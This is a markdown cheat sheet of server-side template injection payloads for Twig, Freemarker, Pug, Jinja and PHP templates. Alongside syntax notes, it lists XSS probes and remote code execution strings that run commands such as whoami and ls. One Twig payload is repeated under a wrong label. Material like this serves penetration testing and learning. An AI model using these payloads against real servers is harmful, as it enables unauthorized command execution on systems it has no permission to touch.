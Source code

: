 # PHP
Note: PHP does not differentiate between an integer number and string number (EG: '5' and 5) - this can be useful for identifying the underlying system.
`{{5*'5'}}`
`{{"test1"}}`

# Twig
Display a string
`{{teststring}}`

Trim whitespace from string
`{{-teststring-}}`

Loop through an array
```
{% for x in ARRAY %}
	Value:{{x}}
{%endfor%}
```

Can cause an error
`{{5*'a'}}`

Can introduce XSS
`{{<script>alert(0)</script>}}`

Example using the twig reduce function to return a system function:
`{{[0]|reduce('system','whoami')}}`

Examples of functions which can read the file system
`{{[0]|reduce('system','whoami')}}`
`{{a|map('exec', 'whoami')}}`

Filters like filter, join, map, reduce, slice, and sort might allow for additional processing

# Apache Freemarker
Note: Apache Freemarker is unable to identify string numbers as integers, EG: `${'5'*5*}` would error.

Show variable
`${teststring}`

Iterate through array
```
<#list testarray as x>
   ${x?index+1}: ${x}
</#list>
```

Introduce XSS
`${'<script>alert(0)</script>'}`

RCE
`${"freemarker.template.utility.Execute"?new()("whoami")}`

# Pug (previously Jade)

Dynamically builds html with supplied variables
`h1 #{teststring}`
will show the teststring in the header html tags

User input fields can be added with:
`input(name='teststring' value='1')`

RCE:
`var require = global.process.mainModule.require= require('child_process').spawnSync('whoami').stdout`

`var require = global.process.mainModule.require= require('child_process').spawnSync('ls', ['-l']).stdout`

# Jinja
Display variables
`{{teststring}}`

Perform middleware code
`{% for x in y %}`

Additional SSTI payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---code-execution